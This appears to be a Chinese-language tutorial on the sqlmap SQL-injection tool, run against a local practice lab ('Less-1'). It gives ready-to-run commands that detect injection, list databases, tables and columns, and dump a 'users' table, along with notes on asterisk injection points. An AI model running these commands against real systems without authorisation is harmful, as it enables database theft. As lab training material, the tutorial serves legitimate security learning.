


# SQLMap使用
## <font color = #1E90FF>SQLMap准备工作</font>
### <font color = #FF0000>更新方法</font><BR>
- **Linux**
```
sqlmap --update
```
- **windows**
    - **可直接github下载覆盖目录**

### <font color = #FF0000>SQLMap的conf</font><BR>
</figure>
     <figure class="thumbnails">
        
</figure>

```
Sqlmap.py -v 3 -u http://192.168.2.149:86/Less-1/?id=1 --user-argent=websecurity --threads=5 -p id --level 3 --technique=E --current-user --flush-session --beep
```

## <font color = #1E90FF>常规注入</font>
- <B>指定url -u 验证注入是否存在<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1"
    ```

- <B>指定--dbs跑取当前MySQL中的所有数据库<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1" --dbs
    ```

- <B>指定--current-db跑取当前数据库名字<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1" --current-db
    ```

- <B>指定--tables -D "库名" 跑取当前数据库表名<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1" --tables -D "security"
    ```

- <B>指定-D "库名" -T "表名" --columns跑取当前表的字段名<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1" -D "security" -T "users" --columns
    ```

- <B>指定--dump导出数据<B>
    ```sqlmap
    sqlmap.py -u "http://127.0.0.1/test/index.php?id=1" -D "security" -T "users" --columns --dump
    ```


### <font color = #FF0000>傻瓜式注入</font><BR>
- **傻瓜式和参数配置都能进行注入，那么一定有一个配置文件来支撑傻瓜式注入<BR>可以看出已经跑出来了**
    ```
    Sqlmap.py -u http://192.168.2.149:86/Less-1/?id=1
    ```
    </figure>
     <figure class="thumbnails">
    
    </figure>

### <font color = #FF0000>SQLMap注入流程</font><BR>
</figure>
     <figure class="thumbnails">
        
</figure>

- **常用选项**
</figure>
     <figure class="thumbnails">
        
</figure>

### <font color = #FF0000>\*号的误区</font><BR>
- **需要用到星号的时候:**
    - __1.url中的值，sqlmap默认不注入，需要*号指定__
    - __2.json格式，sqlmap会变傻，需要*号进行__
    - __3.在默认level（1）时，可以使用*号对特定的请求头做注入__
    ```
    sqlmap -v 0 -u http://192.168.2.149:86/Less-1/?id= *1 --proxy=http://192.168.2.149:86 --flush-session --batch --technique=B

    sqlmap -v 0 -u http://192.168.2.149:86/Less-1/?id= 1*  --proxy=http://192.168.2.149:86 --flush-session --batch --technique=B
    ```
